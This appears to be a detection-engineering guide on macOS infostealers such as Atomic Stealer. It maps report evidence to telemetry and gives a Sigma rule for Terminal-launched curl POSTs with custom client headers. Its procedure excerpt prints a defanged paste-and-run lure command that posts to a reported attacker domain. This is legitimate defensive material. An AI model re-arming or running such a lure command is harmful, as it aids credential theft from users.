

# Infostealers: source evidence, secret-store access, and detection opportunities

> **Scope:** the [infostealer walkthrough](../03-infostealers.md) uses the Threat Intel
> Console's `stealer` entities, especially **Atomic Stealer** and **MacSync Stealer**, to
> show what turns a generic collection hypothesis into an OS telemetry investigation.

## Report evidence → normalized behavior

The Console ranks MacSync Stealer among macOS telemetry and links Atomic Stealer to
[SentinelOne's analysis](https://www.sentinelone.com/blog/atomic-stealer-threat-actor-spawns-second-variant-of-macos-malware-sold-on-telegram/)
and a paste-and-run observation in [Red Canary's June 2026 intelligence report](https://redcanary.com/blog/threat-intelligence/intelligence-insights-june-2026/).
Those reports support a macOS secret-store branch; they do not make an unverified claim
about every platform.

| Report observation | Normalized behavior | Telemetry to retain | Detection opportunity |
|---|---|---|---|
| Trojanized user software leads to an infostealer execution chain. | An untrusted application or terminal session becomes a credential-collection parent. | ESF `NOTIFY_EXEC`, parent, signer, quarantine/provenance when available. | User-facing execution before collection. |
| Atomic Stealer is reported to target browser data, Keychain data, and wallets. | One process reaches multiple protected user-data stores. | Endpoint file/open telemetry, TCC/AppleEvents where available, process lineage. | Multi-store access by an untrusted lineage. |
| A paste-and-run lure was observed with a narrow curl-post behavior. | Terminal shell invokes curl with unusual request shaping after social engineering. | Full argv, Terminal parent, network connection. | Narrow execution rule, not a general stealer signature. |



## Defanged procedure excerpt

Red Canary reported a paste-and-run lure that used `curl` with custom `user` and `BuildID`
headers. The reported destination was `amber-22[.]com`; token values are removed. The `hxxps`
scheme keeps the command non-runnable.

```text
curl -fsS -4 --connect-timeout <seconds> --max-time <seconds> -X POST \
  -H "user: <redacted-token>" -H "BuildID: <redacted-token>" \
  hxxps://amber-22[.]com/api/metrics/run?event=pasted
```

**Rule mapping:** Terminal parent, `curl`, `-X POST`, both custom header names, and the
`event=pasted` path parameter. The rule does not need the rotating host or token values.

## macOS: narrow execution detector

This rule intentionally captures the source-backed **shape** of the Atomic Stealer
paste-and-run path: Terminal-led shell execution with a curl POST containing uncommon,
application-like custom headers. It excludes the report's destination and token values so
the guide does not preserve volatile infrastructure.

```yaml
title: macOS Terminal Curl Post With Custom Client Headers
id: 4c84772f-7501-4f0a-8337-cc82799e93e2
status: experimental
description: Detects Terminal-led curl POST execution with paired custom client-identification headers, a source-backed Atomic Stealer lure shape.
references:
  - https://redcanary.com/blog/threat-intelligence/intelligence-insights-june-2026/
tags:
  - attack.execution
  - attack.t1059.004
logsource:
  product: macos
  category: process_creation
detection:
  selection_image:
    Image|endswith: '/curl'
  selection_parent:
    ParentImage|endswith: '/Terminal'
  selection_command:
    CommandLine|contains|all:
      - '-X POST'
      - '-H user:'
      - '-H BuildID:'
  condition: selection_image and selection_parent and selection_command
falsepositives:
  - developer scripts that intentionally send these exact custom headers from Terminal
level: high
```

**Triage:** inspect the parent Terminal session, target process signer, child shells,
created files, browser/Keychain access, and the destination reputation. A process event
does not prove that an app read the Keychain; that needs a file-access or endpoint-security
collector.

## Windows and Linux: same objective, different collection proof

| OS | Prioritize | Do not claim without telemetry |
|---|---|---|
|  Windows | User-context process lineage into browser profile, wallet, or token access; staging and egress. | That a browser store was read from process creation alone. |
|  Linux | Service/developer/supply-chain parent accessing SSH, cloud, container, or application secrets. | That this is a browser-stealer case because a generic shell ran. |
|  macOS | ESF lineage plus signer, TCC/AppleEvents, and multiple user-data store accesses. | That a TCC prompt or Keychain read is visible when only Unified Logging exists. |

The Windows and Linux rows are deliberately behavioral rather than attributed to Atomic or
MacSync. The Console did not supply a single source-backed cross-platform stealer chain for
those two families; the [walkthrough](../03-infostealers.md) preserves the correct OS-native
investigation model instead.
